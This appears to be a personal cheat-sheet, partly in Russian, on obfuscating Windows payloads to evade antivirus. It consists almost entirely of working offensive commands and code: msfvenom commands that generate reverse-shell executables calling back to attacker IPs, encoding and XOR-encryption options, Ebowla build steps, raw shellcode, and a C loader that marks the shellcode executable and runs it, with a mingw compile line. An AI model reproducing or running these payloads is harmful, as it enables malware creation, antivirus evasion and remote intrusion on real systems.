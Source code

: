 # Obfuscations
need python2 pip2

#!/bin/bash

echo "Setting up pip2"
mkdir scripts && cd scripts
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
echo "Enter Sudo password is asked"
sleep 2
sudo python2 get-pip.py
pip2 install --upgrade setuptools
sudo apt-get install python-dev -y 
clear
echo "----------"
echo "DONE!!!"
echo "----------"

#ebowla

https://github.com/Genetic-Malware/Ebowla.git

https://github.com/ohoph/3bowla

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=9002 -f exe -a x64 -o reverse_9002.exe

python2 ebowla.py reverse_9002.exe genetic.config

./build_x64_go.sh output/go_symmetric_reverse_9002.exe.go rev_shell_9002.exe

wget https://golang.org/dl/go1.15.2.linux-amd64.tar.gz

tar -C /usr/local -xzf go1.15.2.linux-amd64.tar.gz to extract it.

export PATH=$PATH:/usr/local/go/bin

# PAYLOAD

    windows/x64/shell_reverse_tcp   Stageless payload
    
    windows/x64/shell/reverse_tcp   Staged payload

        -- кодеры msvenom шеллкода
        
    msfvenom --list encoders | grep excellent

    msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp

        --- обфускаторы msvenom

        msfvenom --list encrypt
        
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.194.27 LPORT=9001 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe


генерим пайлоад на с

msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp lhost=10.10.194.27 lport=9001 -f c

No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

Вставляем шелкод в сишку

#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}


компилим в екзешку

i686-w64-mingw32-gcc calc.c -o calc-MSF.exe



